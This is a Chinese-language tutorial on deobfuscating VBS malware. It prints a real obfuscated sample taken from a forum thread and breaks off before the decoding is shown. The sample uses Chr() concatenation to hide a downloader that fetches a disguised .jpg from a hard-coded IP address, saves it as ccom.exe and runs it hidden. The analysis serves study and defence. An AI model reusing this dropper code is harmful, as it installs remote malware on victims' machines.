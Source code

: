 ## vbs病毒混淆解决方案

vbs病毒最严重的就是混淆了， 不管怎么混淆，大致都能用以下两种解决方案

1. 如果能直接打印或输出到文件则不需要关注语法，直接将结果打印
2. 如果不能直接看到结果则根据函数及参数含义弄清混淆原理之后手动将混淆结果替换

### 混淆病毒实战分析

**样本来源：**<https://www.52pojie.cn/thread-111170-1-1.html>

![1556440463436](assets/1556440463436.png)

吾爱上面找的一个样本，评论区虽然有分析结果，但是并没有解密过程，贴上代码

```vbs
on error resume next
set oshell = wscript.createobject (Chr(87)+Chr(115)+Chr(99)+Chr(114)+Chr(105)+Chr(112)+Chr(116)+Chr(46)+Chr(115)+Chr(104)+Chr(101)+Chr(108)+Chr(108))
Set xPost = CreateObject(Chr(77)+Chr(105)+Chr(99)+Chr(114)+Chr(111)+Chr(115)+Chr(111)+Chr(102)+Chr(116)+Chr(46)+Chr(88)+Chr(77)+Chr(76)+Chr(72)+Chr(84)+Chr(84)+Chr(80))
xPost.Open Chr(71)+Chr(69)+Chr(84),Chr(104)+Chr(116)+Chr(116)+Chr(112)+Chr(58)+Chr(47)+Chr(47)+"222.73.45.135:19999/rc/zj/gx"+Chr(46)+Chr(106)+Chr(112)+Chr(103),Chr(48)
xPost.Send()
Set sGet = CreateObject(Chr(65)+Chr(68)+Chr(79)+Chr(68)+Chr(66)+Chr(46)+Chr(83)+Chr(116)+Chr(114)+Chr(101)+Chr(97)+Chr(109))
sGet.Mode = Chr(51)
sGet.Type = Chr(49)
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "ccom"+Chr(46)+Chr(101)+Chr(120)+Chr(101),Chr(50)
oshell.RUN "ccom"+Chr(46)+Chr(101)+Chr(120)+Chr(101),vbhide
```

这个样本实际上的利用了Chr函数的特性来混淆分析者，我们可疑拷贝第一句vbs代码，然后修改为下图

![1556440611179](assets/1556440611179.png)
